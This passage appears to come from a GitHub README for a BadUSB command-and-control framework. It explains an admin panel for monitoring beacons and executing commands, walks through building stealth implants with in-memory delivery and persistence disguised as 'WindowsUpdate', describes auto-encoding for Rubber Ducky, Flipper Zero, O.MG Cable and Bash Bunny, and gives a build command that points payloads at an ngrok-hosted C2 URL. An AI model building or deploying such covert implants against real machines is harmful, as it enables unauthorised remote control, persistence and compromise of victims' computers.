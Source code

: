 Or if using localhost:
```
http://localhost:5000/admin
```

The admin panel provides:
- Real-time beacon monitoring
- Command execution interface
- Command result viewing
- Server status information

## Payload Generation

### Building Payloads via Interactive Menu

1. From the main menu, select "1. Build BadUSB Payload"
2. The system will automatically use your active C2 URL
3. Select beacon type:
   - Simple Beacon (recommended for testing)
   - Stealth Beacon (no console - operational)
   - Advanced Beacon (command execution capabilities)

4. Select delivery method:
   - In-Memory (stealthy - recommended)
   - Disk-Based (reliable)
   - Hybrid (balanced)

5. Enter persistence name (default: WindowsUpdate)
6. Enter output filename (default: payload.txt)

<img width="885" height="583" alt="Screenshot 2025-10-05 154746" src="https://github.com/user-attachments/assets/d023274c-aec9-416a-9f53-f2e760846e0f" />

### What Happens During Payload Generation

1. **Beacon Generation**: The framework generates a Python beacon tailored to your selected type
2. **Compilation**: The Python beacon is compiled to a Windows executable using PyInstaller
3. **Encoding**: The executable is base64 encoded for embedding in the payload
4. **Ducky Script Creation**: A complete BadUSB script is generated with the embedded beacon
5. **Auto-Encoding**: The payload is automatically encoded for multiple devices

### Auto-Encoding Feature

After payload generation, the framework automatically encodes for multiple devices:
- Rubber Ducky (.bin files)
- Flipper Zero (.txt files)
- O.MG Cable (.txt files)
- Bash Bunny (.txt files)

Encoded files are saved in the "encoded_payloads" directory.

### Manual Payload Generation

For command-line usage:
```cmd
python ek0msusb.py --build --beacon-type stealth --c2-url https://your-c2.ngrok.io --output-file my_payload.txt
```
